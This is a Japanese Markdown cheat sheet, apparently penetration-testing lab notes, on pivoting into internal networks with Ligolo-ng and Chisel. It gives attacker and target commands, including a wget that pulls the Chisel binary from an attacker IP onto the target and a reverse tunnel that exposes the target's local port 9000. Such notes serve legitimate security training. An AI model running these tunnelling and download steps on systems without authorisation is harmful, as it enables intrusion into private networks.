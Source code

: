 以下は日本語の目次付きのMarkdownフォーマットです。

```markdown
# Ligolo-ngとChiselの使い方

## 目次
1. [Ligolo-ng](#ligolo-ng)
   - [インターフェースの作成と起動](#インターフェースの作成と起動)
   - [Kaliマシン - 攻撃者マシン](#kaliマシン---攻撃者マシン)
   - [WindowsまたはLinuxマシン - 攻撃対象マシン](#windowsまたはlinuxマシン---攻撃対象マシン)
   - [Ligolo-ngコンソールでの操作](#ligolo-ngコンソールでの操作)
   - [Kali Linuxでのサブネット追加](#kali-linuxでのサブネット追加)
2. [Chisel](#chisel)
   - [Chiselクライアントの準備](#chiselクライアントの準備)
   - [Chiselサーバの起動](#chiselサーバの起動)
   - [ローカルポートフォワーディング](#ローカルポートフォワーディング)
   - [ターゲットマシン(Ubuntu)](#ターゲットマシンubuntu)
   - [攻撃マシン(Kali)の操作](#攻撃マシンkaliの操作)

## Ligolo-ng

### インターフェースの作成と起動
```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### Kaliマシン - 攻撃者マシン
```bash
./proxy -laddr <LHOST>:9001 -selfcert
```

### WindowsまたはLinuxマシン - 攻撃対象マシン
```bash
./agent -connect <LHOST>:9001 -ignore-cert
```

### Ligolo-ngコンソールでの操作
```bash
session #select host
ifconfig #内部ネットワークのサブネットをメモする
start #関連するサブネットをligoloインターフェースに追加後に開始
```

### Kali Linuxでのサブネット追加
```bash
sudo ip r add <subnet> dev ligolo
```

## Chisel

### Chiselクライアントの準備
Attacker Machine (Kali)
- ターゲットのOSに合うchiselのクライアントをGitHubからダウンロード  
  [Chisel GitHubリリースページ](https://github.com/jpillora/chisel/releases/tag/v1.8.1)

### Chiselサーバの起動
```bash
chisel server -p 8050 --reverse
```

### ローカルポートフォワーディング

#### Attacker Machine (Kali)
1. Chiselクライアントの準備  
   - ターゲットのOSに合うchiselのクライアントをGitHubからダウンロード  
     [Chisel GitHubリリースページ](https://github.com/jpillora/chisel/releases/tag/v1.8.1)
   - ファイル名の変更  
     - Linux用: `mv chisel_1.8.1_linux_amd64.gz chisel`
     - Windows用: `mv chisel_1.8.1_windows_amd64.gz chisel`

2. ウェブサーバの起動
```bash
python3 -m http.server
```

3. 別のターミナルでChiselサーバを起動
```bash
chisel server -p 8050 --reverse
```

### ターゲットマシン(Ubuntu)
1. Chiselクライアントのダウンロード
```bash
wget http://10.10.14.120:8000/chisel
```

2. 解凍
```bash
gzip -d chisel
```

3. 権限の付与
```bash
chmod +x chisel
```

4. Chiselクライアントの実行
```bash
./chisel client 10.10.14.120:8050 R:9000:127.0.0.1:9000
```

### 攻撃マシン(Kali)の操作
- 攻撃マシンのブラウザで `127.0.0.1:9000` にアクセスすると、ターゲットの `127.0.0.1:9000` にアクセス可能
```